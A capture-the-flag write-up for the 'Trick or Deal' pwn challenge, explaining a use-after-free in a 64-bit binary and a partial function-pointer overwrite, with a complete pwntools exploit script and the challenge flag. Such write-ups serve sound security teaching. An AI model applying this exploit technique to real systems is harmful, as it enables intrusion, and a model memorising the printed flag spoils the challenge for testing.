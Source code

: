 # Trick or Deal
> Write-up author: jon-brandy

## DESCRIPTION:
Bonnie and his crew arrive to planet Longhir to get equipped with the latest weaponry, but the intergalactic weapon dealer refuses to sell them weapons because he has a trade agreement with Draeger, the Alien Overlord,thus Bonnie has to employ his neat exploitation tricks to persuade the dealer into selling them weapons.
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/trickor/challenge]
└─$ file trick_or_deal
trick_or_deal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=782a7adfe9057b833b6d03e6c72d0d00234b732b, not stripped
```

> BINARY PROTECTIONS

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/trickor/challenge]
└─$ pwn checksec trick_or_deal 
[*] '/home/brandy/Downloads/trickor/challenge/trick_or_deal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

2. After decompiled the binary, found the vuln at the `steal()` function.

> USE AFTER FREE (UAF) VULN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0459f894-b235-456b-a158-8178edf8bbd9)


3. And it seems our goal is at the `unlock_storage()`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c4be67cc-3490-4434-bfb8-76819fee077c)


4. The pwn concept here is ret2win, but the problem is the PIE enabled and there is no potential overflow. We can leak the PIE at `buy()` by sending 7 bytes, but we won't be able to use it because there is no overflow.
5. Anyway we can still do get inside the `unlock_storage()` using the **UAF** with modifying the last 2 bytes (least significant bytes) of the function pointer. The goal is to change **printstorage** to **unlock_storage**.

#### NOTES:

```
update_weapons() is called at the main(), and it allocates a chunk on the heap. The chunk is saved in a global variable named storage with a size of 80 bytes (0x50) and it copies it's value and a pointer to the printstorage(). (Only in the last 8 bytes). 
```


6. But why printstorage shall be our interest? Here's why:

> WITH GDB - CHECKING THE HEAP CHUNKS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/61265489-8ae5-4c02-b200-5b957478fbc4)


> PROOF (80 sized chunk holds a string and also the printstorage() pointer

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/327b93d0-d395-43c0-88fc-a48fa4fc9505)


### FLOW

```
At first, we free the storage by calling the steal(), since storage is not set to NULL,
hence we can use the chunk later (it just freed, does not remove the contents).

Next we do malloc by calling the make_offer() and make a size of 80 to take the original chunk.
Since we only need the last 2 bytes, hence we can fill the rest (72 buffer) with junk. Now we will get RCE at option 1. 
```

> SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './trick_or_deal'
elf = context.binary = ELF(exe, checksec=True)
#context.log_level = 'DEBUG'
context.log_level = 'INFO'

sh = start()

sh.sendlineafter(b'?', b'4')
sh.sendlineafter(b'?', b'3')
sh.sendlineafter(b':', b'y')
sh.sendlineafter(b'?', b'80') # 0x50

p = flat([
    asm('nop') * 72, #0x48
    # since last 2 bytes hence --> pack 16
    p16(elf.sym['unlock_storage'] & 0xffff) # Overwriting the last 2 bytes 
])

sh.sendafter(b'?', p) ## dunno why it can't send with the \n, but we get RCE without sending the newline.
sh.sendlineafter(b'?', b'1') # get RCEEEE
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/641dc649-6b51-4c94-aedc-9b0b3469dd93)


> TEST REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d505c310-2d8c-45c6-a9c3-be0f622df283)


## FLAG

```
HTB{tr1ck1ng_41nt_ch34t1ng}
```



